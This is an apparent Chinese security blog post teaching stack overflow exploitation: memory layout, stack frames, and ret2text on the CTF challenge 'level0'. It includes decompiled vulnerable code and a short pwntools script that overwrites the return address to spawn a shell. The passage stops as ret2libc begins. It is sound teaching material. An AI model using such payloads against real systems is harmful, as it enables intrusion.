 ```yaml
---
layout: post
title:  "【Pwn】StackOverflow"
date:   2023-09-04 00:00:00 +0800
categories: 安全
tags: 安全 Pwn
comments: 1
mathjax: true
copyrights: 原创
---
```


# 内存模型

对于一个典型的 C 语言程序，其内存布局如下图所示：

<img src="../assets/post/images/image-20230908115505830.png" alt="image-20230908115505830" style="zoom: 33%;" />

- 代码段存储可执行代码
- 数据段存储由程序员初始化过的全局变量和静态变量
- BBS 段存储未初始化的全局变量和静态变量
- 堆用于动态内存分配
- 栈用于存储局部变量和函数调用相关数据

当一个函数被调用时，系统会在栈顶（也就是地址更低的地方）为它分配一块空间，被称为栈帧（Stack Frame）。

- 参数区域用于保存传递给函数的参数
- 调用函数前，计算机将下一条指令的地址存储在返回地址区域
- 前帧指针区域存储着上一个帧的指针
- 局部变量区域存储着该函数的局部变量

很显然的是，函数中局部变量的地址无法在编译时就确定下来，访问局部变量必须依靠相对地址偏移来查找。相对地址的基址就存储在 CPU 的帧指针寄存器（ebp）中。

然而，CPU 只有一个帧指针寄存器。当函数返回时，上一个函数存储在寄存器中的帧指针已经被覆盖了。因此，栈中还存储了前帧指针，用来在函数返回时设置帧指针寄存器。

栈是由高地址向低地址生长的，但局部变量（缓冲区）中的数据则是由低地址向高地址生长。如果局部变量中的数据内容超出了原先分配的大小，则会继续向高地址生长，覆盖前帧指针、返回地址……

# ret2text

一个自然的攻击想法是：我们可以用恶意函数覆盖上一个函数的栈帧、用恶意的返回地址覆盖原来的返回地址，使得函数返回到恶意函数处。如图所示：

<img src="../assets/post/images/image-20230908121015538.png" alt="image-20230908121015538" style="zoom: 33%;" />

这便是ret2shellcode 攻击。

但现在讨论这个还为时过早，我们首先考虑更简单的 ret2text 情况：

如果程序中存在函数语句

```c
system("/bin/sh");
```

如何通过溢出的方式返回到这个函数呢？以攻防世界 level0 为例。把程序扔进 ida 后可以看到：

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

显然，这段代码的 `read` 函数可以向大小为 128 的 buf 中填入 200 的数据，因此存在上述的漏洞。同时，我们还在 `0x0000000000400596` 处看到

```c
int callsystem()
{
  return system("/bin/sh");
}
```

尽管这个函数并没有在 main 函数中被调用，但我们依然可以通过覆盖返回值来运行这个函数。根据前文提到的原理：

- 我们首先需要写 `0x80` 字节的随机数据填满 buf
- 然后用 `0x8` 字节的随机数据填满前帧指针的位置
- 最后用 `callsystem` 函数的地址 `0x0000000000400596` 覆盖原先的返回地址

那就可以直接写 POC 了：

```py
from pwn import *
							
p = process('./pwn')

offset = 0x80 + 0x8
target = 0x400596
payload = offset * b'a' + p64(target)

p.sendline(payload)
p.interactive()
```

这里需要注意的是，这里的程序是 64 位的。对于 32 位的程序，前帧指针占用的空间为 `0x4`，且你应当把上面程序的 `p64` 函数修改为 `p32`。

# ret2libc

但不是每个程序都会傻傻地放一个 `system("/bin/sh")` 在那里等你调用。接下来，我们考虑稍微复杂一点的情况：程序中有 `system()` 函数、有 `/bin/sh` 这个字符串，我们如何操作呢？

